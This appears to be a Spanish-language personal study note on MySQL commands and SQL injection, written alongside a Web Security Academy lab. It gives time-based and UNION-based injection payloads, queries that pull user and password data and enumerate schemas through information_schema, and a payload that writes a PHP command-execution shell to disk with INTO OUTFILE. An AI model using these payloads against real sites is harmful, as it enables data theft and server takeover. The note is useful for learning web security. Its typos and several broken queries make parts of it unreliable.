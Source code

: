 Cuando te logueas en la web por detrás viaja una [[query]] QUE COMUNICA CON UNA BASE DE DATOS, CONSULTANDO SI LOS DATOS QUE INREGASTE SON CORRECTOS
Usamosel siguiente comando para saber si es vulnerable a un sql injection
```
https://elmejorlinkdealahistoria/parecefalse?id=1' and sleep(5)-- -
```
pirmero ejecutamos el siuguiente comando, para acceder al servicio y poder entrar a la base de datos y proporcionanr una contraseña con "-p"
```
mysql -uroot -p
```
en cuanto a la estructura respecta, hay columnas, hay tablas, hay base de datos y hay información, para ver la base da datos utilizamos el camndo:
```
show databases;
```
cada columna tiene datos que puede ser vistos, para usar esta tabla de bases y poder operar desde la misma: 
```
use mysql;
```
ahora si buscamos las tablas, se listarán las de mysql:
```
show tables;
```
y para ver en profundidad uno de los datos, por ejempo el DATO llamado USER
```
describe user;
```
Ahora si alguno de los datos de la tabla de bases me interesa:
```
select user ,password from user;
```
ahora si queremos acotar la búsqueda usamo where, el nombre del dato de la tabla correspondiente e igual a un usuario como root por ejemplo, where user = 'root'
tal que así:
```
select usr ,password from user where user = 'root'
```
## Creación de base de datos
vamos a crear una base de datos
```
create database Marx;
```
tenemos una nueva database y entramos a la tabla recién creada:
```
use Marx
```

y como si listamos las tablas no hay ninguna, entonces vamos a crear una
```
create table users();
```
Le asignamos los campos, columnas, un ejemplo de esto sería el siguiente:
```
create table users(id, username, password, subscription);
```
 ponemos el comando create table, el nombre de la tabla que le vamos añadir y dentro del paréntesis indicas las columnas que va a tener, por ejemplo en la columna "Type" un numero entero que va corresponder a la credencial del usuario (un id) y varchar es la cantidad de caracteres admitidos 
```
create table users(id int auto_increment PRIMARY KEY, username varchar(32), password varchar(32), subscription varchar(32));
```
para eliminar una tabla ejecutamos el siguietne comando 
```
drop table users;
```
Ya una vez tengamos la tabla terminada podemnos verla con:
```
show tables;
```
y para que las columnas y en mayor detalle utilizamos lo siquiente:
```
describe users;
```
Si uno te da conflicto porque no te deja podrías ponerle el valor en NULL

y ahora insertamos los datos que queremos, los inyectamos:
```
insert into users(id, username, password) values(1, 'admin', 'admin123$!p@$$' );
```
Vemo que tal con los datos inyectados de la siguiewtne forma
```
select * from users;
```
para ver los datos sería algo así:
```
select id,username,password,subscription from users;
```

Y di queremos ver una fila sola, tomamos de referencia la columna llamada 'username', además nos mostrará solo la contraseña y la subscripción
Para ir seleccionando:
```
select password,subscription from users where username = 'admin' order by 1;-- -';
```
ósea que la sintazys sería algo así:
```sql
select (query type) password (column) from (desde) users (la tabla) where (donde está) username 
```
para convinar con los datos que te represente, en este caso 1 y 2 si serían 4 columnas pondrías 1,2,3,4 pero como son dos pones 1,2, de igual forma no hace falta que este en orden, podría ser 2,1 o también puede ser lisa y llanamente NULL,NULL 
```
select password,subscription from users where username = 'admin' union select 1,2;-- -';
```
pero si pone más interesante si empezamos a inyectar comandos SQL
```
select password,subscription from users where username = 'admin' union select version(),database();-- -';
```
para un ejemplo de url de una página agragariamos algo así al link:
```
/filter?category=Pets' union select NULL,NULL,NULL-- -
```
no quedaría algo así la urlo 
```
https://0ad90062043bb8ea82b6b52300430081.web-security-academy.net/filter?category=Pets%27%20union%20select%20NULL,NULL,NULL--%20-
```
Y en caso de que quisiera ir más allá e inyectar comandos del SQL,
en el que la union enlaza un comando php y el into outfile hace que lo interprete
```
select password,subscription from users where username = 'admin' union select "<?php system('whoami'); ?>","probando" into outfile "/tmp/prueba.txt";-- -';
```
Si quiero ver la otras bases de datos, le agrego un " schema_name from information_schema.schemata " o utilizamos un group_concat para que nos la concatene
```
select password,subscription from users where username = 'admin' union select 1,group_concat(schema_name) from information_schema.schemata;-- -';
```
ahora si estoy teniendo problemas, también puede ir de uno en uno con un limit 1,1 limit 2,1 limit 3,1
```
select password,subscription from users where username = 'admin' union select 1,schema_name from information_schema.schemata limit 2,1;-- -';
```

```
select password,subscription from users where username = 'admin' union select column_name,2 from information_schema.schemata where table_schema='marx' and table_name='users';-- -';
```
```
union slect NULL,table_name from information_schema.tables where table_schema='public
```
El order by 1 tiene que ser igual a la cantidad de filas de la tabla
```
select username,password from users where id = '2' order by 2;#';
```
Otra forma 


```
select username from users where id = '2' order by 1;#';
```
Las Boolean-based blind SQL Injection es cuando definimos una query según un valor, y de esta forma nos daría un bolean, true or false, o en este caso un 1 o 0
